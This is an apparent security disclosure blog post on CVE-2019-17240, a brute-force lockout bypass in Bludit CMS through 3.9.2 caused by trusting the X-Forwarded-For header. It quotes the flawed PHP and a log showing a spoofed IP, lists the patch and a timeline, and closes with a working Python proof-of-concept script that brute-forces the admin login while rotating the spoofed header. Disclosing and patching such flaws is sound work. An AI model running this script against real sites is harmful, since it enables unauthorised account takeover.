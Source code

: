 ```yaml
---
layout: post
title: Bludit Brute Force Mitigation Bypass
date: 2019-10-05
categories:
  - disclosure
  - websec
  - security
tags:
  - disclosure
  - php
  - security
  - websec
  - CVE-2019-17240
image: /assets/images/2019-10-05-bludit-brute-force-mitigation-bypass/68747470733a2f2f61736369696e656d612e6f72672f612f3237323636312e737667.jpg
---
```

Versions prior to and including 3.9.2 of the Bludit CMS are vulnerable to a bypass of the anti-brute force mechanism that is in place to block users that have attempted to incorrectly login 10 times or more. Within the `bl-kernel/security.class.php` file, there is a function named `getUserIp` which attempts to determine the _true_ IP address of the end user by trusting the `X-Forwarded-For` and `Client-IP` HTTP headers:

```php
public function getUserIp()
{
  if (getenv('HTTP_X_FORWARDED_FOR')) {
    $ip = getenv('HTTP_X_FORWARDED_FOR');
  } elseif (getenv('HTTP_CLIENT_IP')) {
    $ip = getenv('HTTP_CLIENT_IP');
  } else {
    $ip = getenv('REMOTE_ADDR');
  }
  return $ip;
}
```

The reasoning behind the checking of these headers is to determine the IP address of end users who are accessing the website behind a proxy, however, trusting these headers allows an attacker to easily spoof the source address. Additionally, no validation is carried out to ensure they are valid IP addresses, meaning that an attacker can use any arbitrary value and not risk being locked out.

As can be seen in the content of the log file below (found in `bl-content/databases/security.php`), submitting a login request with an `X-Forwarded-For` header value of `FakeIp` was processed successfully, and the failed login attempt was logged against the spoofed string:

```json
{
    "minutesBlocked": 5,
    "numberFailuresAllowed": 10,
    "blackList": {
        "192.168.194.1": {
            "lastFailure": 1570286876,
            "numberFailures": 1
        },
        "10.10.10.10": {
            "lastFailure": 1570286993,
            "numberFailures": 1
        },
        "FakeIp": {
            "lastFailure": 1570287052,
            "numberFailures": 1
        }
    }
}
```

By automating the generation of unique header values, prolonged brute force attacks can be carried out without risk of being blocked after 10 failed attempts, as can be seen in the demonstration video below in which a total of 51 attempts are made prior to recovering the correct password.

Demonstration
-------------
<script id="asciicast-272661" src="https://asciinema.org/a/272661.js" async></script>
<noscript><a href="https://asciinema.org/a/272661" target="\_blank"><img src="https://asciinema.org/a/272661.svg" /></a></noscript>

Versions Affected
-----------------
<= 3.9.2

Solution
--------
Update to a version later than 3.9.2 or apply the patch found at [https://github.com/bludit/bludit/pull/1090](https://github.com/bludit/bludit/pull/1090)

CVSS v3 Vector
--------------
[AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N/E:P/RL:W/RC:R](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N/E:P/RL:W/RC:R&version=3.1)

Disclosure Timeline
-------------------
- **2019-10-05**: Vulnerability found, pull request opened with fix
- **2019-10-05**: CVE requested
- **2019-10-05**: Patch merged into master branch
- **2019-10-06**: CVE-2019-17240 assigned to issue

Proof of Concept
----------------
```python
#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
    wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break

```
